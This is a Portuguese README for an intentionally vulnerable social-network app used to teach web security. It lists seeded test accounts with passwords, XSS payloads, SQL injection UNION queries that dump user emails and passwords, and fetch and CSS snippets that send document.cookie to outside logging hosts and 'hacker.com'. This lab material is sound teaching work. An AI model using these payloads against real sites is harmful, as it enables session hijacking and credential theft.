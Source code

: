 # Damn Vulnerable Social Network

Uma aplicação vulnerável indicada para testes e entendimento de conceitos de segurança em Aplicações WEB

Requisitos:
- Java 17
- Node 19
- Docker
- Docker Compose
- Postgres instalado. (Caso não tenha o Docker e Docker Compose)

## Rodar a aplicação

### 1. Subir o banco de dados utilizando o Docker Compose. Rodar o comando abaixo na pasta raíz do projeto.
```
docker-compose up
```

### 2. Criação do banco de dados.

- Entrar na pasta **dvsn** e executar o script:
```bash
$ ./create-database.sh
```

### 3. Entrar na pasta do front (dvsn/front) e dar build no projeto, para que os arquivos sejam colocados na pasta estática da api.

NPM:
```
npm install
npm build
```
YARN:
```
yarn
yarn build
```

### 4. Abrir o VS Code ou IntelliJ e rodar a aplicação.
Main Class -> RootApplication.java

## Usuários disponíveis
|Email|Hash Senha|Senha|Admin|
|-|-|-|-|
|bob@mail.com|0acf4539a14b3aa27deeb4cbdf6e989f|michael|Sim|
|jimi@mail.com|061fba5bdfc076bb7362616668de87c8|lovely|Não|
|jim@mail.com|5f4dcc3b5aa765d61d8327deb882cf99|password|Não|
|amy@mail.com|d8578edf8458ce06fbc5bb76a58c5ca4|qwerty|Não|
|janis@mail.com|46f94c8de14fb36680850768ff1b7f2a|123qwe|Não|

## Comandos extras:
Gerar certificado para o servidor apache2.
```sh
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

## Assuntos abordados:

- OWASP TOP 10
- XSS
- CSRF
- Cookies (HttpOnly, Secure, SameSite)
- Alguns cuidados com LocalStorage e SessionStorage
- Como manter componentes/frameworks/libs seguras e atualizadas
- Cabeçalhos CSP e X-Frame-Options

## Software Composition Analysis (SCA)
- NodeJS/JavaScript: <a href="https://www.npmjs.com/package/yarn-audit-html">yarn audit html report</a>

## Vulnerabilidades
- SQL Injection
    - Login
    - Pesquisa de usuários
- XSS
    - Reflected
        - /hello?nome=Bob
    - DOM
        - Filtro na listagem de POSTS
    - Stored
        - Comentários dos posts    
- Cookie
    - É apenas um base64 e a aplicação confia no que o cliente envia.

fetch('https://servidor-de-log.free.beeceptor.com/todos?cookie=' +  document.cookie)
fetch('http://logger.crescer.lab/?cookie=' +  document.cookie)

## Payloads:
- XSS
```html
<img src="a" onerror="alert('XSS')" />
```
- SVG
```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```
- SQL Injection (Login)
- SQL Injection (Lista de usuários)
```sql
' union select 1, '2', '3', '4', '5', '6', 1, now(), now()--
```
```sql
' union select floor(random() * 1000), '2', table_name, '4', '5', '6', 1,now(), now() from information_schema.tables where table_schema = 'public'--
```
```sql
' union select floor(random() * 1000), table_name, column_name, '4', '5', '6', 1,now(), now() from information_schema.columns where table_schema = 'public'--
```
```sql
' union select floor(random() * 1000), '2', string_agg(column_name,','), '4', '5', '6', 1,now(), now() from information_schema.columns where table_name = 'usuario'--
```
```sql
' union select floor(random() * 1000), '2', concat(email,' ' ,senha), '4', '5', '6', 1,now(), now() from usuario--
```

https://github.com/payloadbox/sql-injection-payload-list
- CSS Injection
/hello?nome=Teste#red;margin-left:50px;background-image:url('http://localhost:8080/favicon.ico')
- expression(document.write('<iframe src=" .= "http://hacker.com?cookie=' + document.cookie.escape() + " />'))
background-image: url(javascript:alert('XSS'))
https://www.mediawiki.org/wiki/Preventing_XSS_Attacks_through_CSS_Whitelisting

## TODO
- <s>Prevenção de XSS configurável.</s>
- <s>Prevenção de SQL Injection configurável.</s>
- <s>Adicionar XSS em SVG e CSS.</s>
- <s>Validar tipos de autenticação e adicionar Token Opaco.</s>
- Adicionar cabeçalhos CSP e X-Frame-Options configuráveis.
- Adicionar certificados SSL.


## Exemplos de vulnerabilidades:
- <a href="https://security.snyk.io/vuln/SNYK-JS-MATERIALIZECSS-2324800">XSS materialize-css</a>

## Referências
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval
https://github.com/payloadbox/xss-payload-list
